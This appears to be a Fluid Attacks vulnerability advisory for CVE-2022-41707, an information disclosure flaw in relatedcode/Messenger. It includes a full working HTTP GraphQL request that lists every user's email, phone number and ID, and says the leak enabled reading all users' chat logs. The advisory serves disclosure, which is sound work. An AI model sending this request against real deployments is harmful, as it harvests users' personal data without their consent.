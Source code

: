 ```yaml
---
slug: advisories/coldplay/
title: relatedcode/Messenger 7bcd20b - Information Disclosure
authors: Carlos Bello
writer: cbello
codename: coldplay
product: relatedcode/Messenger 7bcd20b
date: 2022-10-14 10:00 COT
cveid: CVE-2022-41707
severity: 6.5
description: relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure
keywords: Fluid Attacks, Security, Vulnerabilities, Relatedcode, Messenger
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure |
| **Code name**         | [Coldplay](https://en.wikipedia.org/wiki/Coldplay)                 |
| **Product**           | relatedcode/Messenger                                              |
| **Affected versions** | Version 7bcd20b                                                    |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Business information leak - Personal Information                                                                            |
| **Rule**              | [226. Business information leak - Personal Information](https://docs.fluidattacks.com/criteria/vulnerabilities/226)         |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41707](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41707)                                             |

## Description

Relatedcode/Messenger version 7bcd20b allows an authenticated external attacker to
access sensitive data of any user of the application. This is possible
because the application exposes user data to the public.

## Vulnerability

The application exposes the session data of the users of the application
to the public. Among the exposed data are:

* ID
* Email
* PhoneNumber
* Etc

![image.png](https://user-images.githubusercontent.com/51862990/195862599-c66cafc2-09a1-457d-88ba-c4b2fabdf24a.png)

The ID exposed in this vulnerability will help us to exploit even a
[broken access control](../tiesto/index.md)
present in this application.

## Exploitation

To exploit this vulnerability, simply create an account on the server and
then send the following request:

```txt
POST /graphql HTTP/2
Host: relatedchat.io:4000
User-Agent: Something
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://relatedchat.io/
Content-Type: application/json
Authorization: Bearer [YOUR TOKEN]
Origin: https://relatedchat.io
Content-Length: 356

{"operationName":"ListUsers","variables":{},"query":"query ListUsers($updatedAt: Date, $workspaceId: String) {\n  listUsers(updatedAt: $updatedAt, workspaceId: $workspaceId) {\n    objectId\n    displayName\n    email\n  fullName\n    phoneNumber\n    photoURL\n    theme\n    thumbnailURL\n    title\n    workspaces\n    createdAt\n    updatedAt\n  }\n}"}
```

## Impact

An authenticated remote attacker can access sensitive user data. This allows
an attacker to obtain enough information to escalate to more serious attacks.
In our case, we managed to exploit a broken access control thanks to the data
leaked in this vulnerability. Thanks to this I was able to access all the
internal chat logs of all registered users.

## Our security police

We have reserved the CVE-2022-41707 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: relatedcode/Messenger 7bcd20b

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/relatedcode/Messenger>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>
